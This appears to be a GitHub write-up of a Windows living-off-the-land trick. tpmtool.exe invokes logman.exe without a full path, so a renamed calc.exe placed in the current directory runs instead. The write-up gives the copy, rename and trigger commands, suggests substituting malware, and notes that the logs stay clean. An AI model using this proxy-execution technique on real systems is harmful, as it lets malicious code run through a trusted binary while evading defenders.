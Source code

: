 # Proxying Command Execution By Utilizing TPMTool.exe
>Shoutout And Credit Goes To [Grzegorz Tworek] For Tweeting This LOLB

TPMTool.exe Utility Can Retrieve Information About The TPM Module

Playing Around With The Utility
```shell
tpmtool.exe drivertracing stop
```

Looking For Any Weird Behavior In ProcMon, It Is Seen That tpmtool.exe Spawns A Child Process Of cmd.exe

![2](https://user-images.githubusercontent.com/94680549/228516637-ff1931a2-0266-45bc-a5b1-c413deaeaa94.png)

Inclusing cmd.exe Process Name As A Filter, It Is Seen That cmd.exe Makes Use Of Another Windows Utility Called logman.exe

![3](https://user-images.githubusercontent.com/94680549/228520122-7ee024ff-5272-4a33-bc31-7f73f0f7defc.png)

In The Event Properties It Is Seen That A Directory Is Not Specified When Running logman.exe, So It Is Clear That We Can Run Our Own logman.exe In The Current Directory

As An Example Copy C:\Windows\System32\calc.exe To The Current Directory, Rename It To logman.exe And Run The Same Command As Before

```shell
copy C:\Windows\System32\calc.exe .
```

![4](https://user-images.githubusercontent.com/94680549/228521113-9b374cfc-cc22-4ea0-b933-c990f6f7c997.png)

```shell
ren calc.exe logman.exe
```

![5](https://user-images.githubusercontent.com/94680549/228521153-421c23de-84ac-4dee-93d4-cf5d5897dc7e.png)

```shell
tpmltool.exe drivertracing stop
```

![6](https://user-images.githubusercontent.com/94680549/228522481-7ee351d1-6f90-40cb-9496-d3da99a2374e.png)

As You Can See The Process Is Successful But Instead Of Opening The logman.exe Utility The Calculator Is Opened

Instead Of The Calculator You Can Make Use Of Malware Or Other Windows Utilities To Create Weird Or Malicious Behavior

>Note: In The System Logs Nothing Out Of The Ordinary Is Present Which Makes Analysis For The SysAdmin Or The Blue Team Members Harder

![7](https://user-images.githubusercontent.com/94680549/228524393-da8affc6-b405-4bc7-bddd-6ec7b1a289a0.png)


[Grzegorz Tworek]: https://twitter.com/0gtweet







